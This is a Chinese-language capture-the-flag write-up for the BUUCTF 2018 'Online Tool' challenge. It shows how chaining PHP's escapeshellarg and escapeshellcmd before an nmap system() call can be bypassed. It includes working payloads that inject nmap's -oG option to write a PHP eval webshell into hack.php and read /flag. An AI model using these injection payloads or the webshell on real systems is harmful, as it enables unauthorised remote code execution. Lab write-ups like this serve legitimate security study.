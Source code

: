 # [[BUUCTF 2018]Online Tool](https://buuoj.cn/challenges#[BUUCTF%202018]Online%20Tool)

## 知识点

- RCE 远程代码执行漏洞
- 漏洞点：`escapeshellarg`和`escapeshellcmd`**顺序**使用

## RCE 远程代码执行漏洞

### 漏洞利用

- 当设备没有在输入口做输入处理，攻击者可以利用`RCE`，直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统
- 我们常见的路由器、防火墙、入侵检测等设备的`web`管理界面上，一般会给用户提供一个`ping`操作的`web`界面，用户从`web`界面输入目标`IP`，提交后，后台会对该`IP`地址进行一次`ping`测试，并返回测试结果。

### 常用命令

1. 常用系统执行命令
```bash
system() 
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
```
2. 系统命令拼接方式

- `|`：管道符
- `&`：commandA & commandB 先运行命令A，然后运行命令B
- `||`：commandA || commandB 运行命令A，如果失败则运行命令B


## 解题过程

1. 首先观察题目，有个`php`和`RCE`标签
2. 题目给了一段源码   
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];   # remote_addr和x_forwarded_for 服务器获取ip用的
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);  # __FILE__:脚本根路径,并进行高亮
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host); # GET方法传递参数值给变量host，通过了两个 escapeshellarg 和 escapeshellcmd 过滤之后，使用system系统命令执行nmap
}
```
3. 整段代码中比较“可疑”的代码就是：
```php
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
```
- `escapeshellarg()`: 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数
- `escapeshellcmd()`：对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。
    - 会在特殊字符前面插入`\`
    ```
    &
    #
    ;
    `
    |
    *
    ?
    ~
    < >
    ^
    () [] {}
    $
    \
    \x0A   # \r
    \xFF
    ```
    - `'` 和 `"` 仅在不配对的时候被插入`\`。 
    - 在 `Windows` 平台上，`所有这些字符`以及 `%` 和 `!` 字符都会被空格代替
4. 所以如果想要利用`RCE`漏洞，那么就需要绕过`escapeshellarg()`和`escapeshellcmd()`，[详见](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
5. 输入正常的参数：`?host=127.0.0.1`，返回：
```php
you are in sandbox 4d949dbe7095f734ebd052c1c843d411Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-01 01:46 UTC Nmap scan report for localhost (127.0.0.1) Host is up (0.00045s latency). Not shown: 99 closed ports PORT STATE SERVICE 80/tcp open http Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```
- 获取了文件夹：`4d949dbe7095f734ebd052c1c843d411`
6. `namp -oG`：使用这个命令可以将一句话木马加入到文件中
```bash
<?php @eval($_POST["hack"]);?> -oG hack.php
# 将 <?php @eval($_POST["hack"]);?> 写入 hack.php
```
7. 想要真正执行的命令应该为：
```
nmap -T5 -sT -Pn --host-timeout 2 -F 127.0.0.1 <?php @eval($_POST["hack"]);?> -oG hack.php
```
8. `payload`：`?host=<?php @eval($_POST["hack"]);?> -oG hack.php`，语句变为
```
nmap -T5 -sT -Pn --host-timeout 2 -F '\<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack.php'
```
关键命令变成了一串字符串
9. 所以加上`''`，闭合`'`
10. `payload`：
```
?host=' <?php echo `cat /flag`);?> -oG hack.php '
```
构建成功，在目录：`60c11ec7d871344ad92fb3f119387254`下    

![](./img/目录构建成功.png)       

11. 执行`60c11ec7d871344ad92fb3f119387254/hack.php`     
![](./img/onlinetool获取到flag)    

## 参考资料

- [[BUUCTF 2018]Online Tool（超详细解析payload）](https://blog.csdn.net/weixin_44348894/article/details/105520481)
- [Online Tool writeup1](https://www.cnblogs.com/Cl0ud/p/12192230.html)
- [Online Tool writeup2](https://blog.csdn.net/qq_26406447/article/details/100711933)
- [RCE(远程代码执行漏洞)原理及漏洞利用](https://blog.csdn.net/weixin_46706771/article/details/118893434)
- [利用/绕过 PHP escapeshellarg/escapeshellcmd函数](https://www.anquanke.com/post/id/107336)
- [谈谈escapeshellarg参数绕过和注入的问题](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [Webshell和一句话木马](https://www.cnblogs.com/csnd/p/11807741.html)